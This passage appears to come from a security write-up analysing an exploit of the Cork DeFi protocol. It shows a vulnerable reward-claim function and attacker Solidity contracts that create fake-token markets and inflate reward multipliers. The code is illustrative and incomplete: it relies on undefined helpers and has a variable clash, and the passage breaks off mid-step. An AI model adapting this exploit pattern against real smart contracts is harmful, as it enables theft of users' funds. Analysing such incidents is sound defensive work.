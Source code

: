 ```solidity
        // CRITICAL FLAW: No validation of reward legitimacy
        userRewards[msg.sender] = 0; // Reset before transfer
        
        // Direct transfer without proper checks
        rewardToken.transfer(msg.sender, rewardAmount);
        
        emit RewardsClaimed(msg.sender, rewardAmount);
    }
}
```

### The Attack Kill Chain: A Three-Phase Devastation

**Phase 1: Market Creation Exploit**
The attacker exploited insufficient access controls to create malicious markets with manipulated parameters designed to inflate reward calculations.

```solidity
// Attacker's malicious market creation
contract CorkExploit {
    CorkProtocol target;
    
    function createMaliciousMarket() external {
        // Step 1: Deploy fake tokens with manipulated supplies
        address fakeTokenA = deployFakeToken(1e18); // Minimal supply
        address fakeTokenB = deployFakeToken(1e30); // Massive supply
        
        // Step 2: Create market with extreme parameters
        target.createMarket(fakeTokenA, fakeTokenB, 1 ether);
        
        // Step 3: Manipulate market data for reward calculation
        address maliciousMarket = getCreatedMarket();
        manipulateMarketParameters(maliciousMarket);
    }
    
    function manipulateMarketParameters(address market) internal {
        // Exploit market parameter controls
        IMarket(market).setRewardMultiplier(1000000); // Massive multiplier
        IMarket(market).setTotalLiquidity(1); // Minimal denominator
        
        // Create artificial liquidity position
        IMarket(market).addLiquidity(address(this), 1e18);
    }
}
```

**Phase 2: Reward Manipulation**
With malicious markets created, the attacker systematically manipulated reward calculations to inflate their entitled rewards by several orders of magnitude.

```solidity
// Reward manipulation mechanics
function executeRewardManipulation() external {
    address[] memory maliciousMarkets = getMaliciousMarkets();
    
    for (uint i = 0; i < maliciousMarkets.length; i++) {
        address market = maliciousMarkets[i];
        
        // Manipulate market state for maximum reward calculation
        IMarket market = IMarket(market);
        
        // Step 1: Maximise total liquidity denominator
        market.withdrawLiquidity(market.getTotalLiquidity() - 1);
        
        // Step 2: Maximise user liquidity position
```
